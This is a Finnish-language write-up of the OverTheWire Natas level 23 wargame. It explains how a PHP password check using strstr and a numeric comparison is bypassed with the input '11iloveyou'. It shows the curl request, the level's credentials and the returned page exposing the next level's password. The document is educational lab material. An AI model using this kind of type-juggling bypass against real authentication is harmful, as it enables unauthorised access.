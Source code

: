Tässä tason harjoituksessa ideana oli lukea sitä index-source.html välilehteä, koska siinä PHP koodi pätkässä oli pieni vastaus - ja olisi pitänyt arvattakin.

Tässä funktiossa osassa: `if(strstr($_REQUEST["passwd"],"iloveyou") && ($_REQUEST["passwd"] > 10 ))` - tämä on se vastaus, jossa lomake hyväksyy salasansa, **jos syötettään merkkijonoa "iloveyou"**, ja samalla se on arvoa suurempi kuin 10. Ehkä tässä on yksityiskohta, kun verrataan merkijonoa suuruusvertailuna luku on 10.

Testasin normaalisti sen "iloveyou", että "passwd" mutta vinkkien mukaan se onkin vastauksena: **"11iloveyou"**. Ehkä outoimmista on se mistä ja miten se on tullut toi numero "11" siihen ja + "iloveyou"?.


**The credentials for the next level are:
Username: natas24 Password: MeuqmfJ8DDKuTr5pcvzFKSwlxedZYEWd**



Tämä on sama vastaus mutta testasin url perään toi osuus, mutta on toista tapaakin.

```
┌──(kali㉿kali)-[~]
└─$ curl "http://natas23.natas.labs.overthewire.org/?passwd=11iloveyou" --user natas23:dIUQcI3uSus1JEOSSWRAEXBG8KbR8tRs 
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src="http://natas.labs.overthewire.org/js/wechall-data.js"></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas23", "pass": "dIUQcI3uSus1JEOSSWRAEXBG8KbR8tRs" };</script></head>
<body>
<h1>natas23</h1>
<div id="content">

Password:
<form name="input" method="get">
    <input type="text" name="passwd" size=20>
    <input type="submit" value="Login">
</form>

<br>The credentials for the next level are:<br><pre>Username: natas24 Password: MeuqmfJ8DDKuTr5pcvzFKSwlxedZYEWd</pre>  
<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```

Tämä se toinen taikatemppu, joka voi simulida käyttäjän syöte lomakekenttää. Just tämän kenttän tyyppiä `<input type="text" name="passwd">` , kuten tässä harjoituksen-tasossa. 
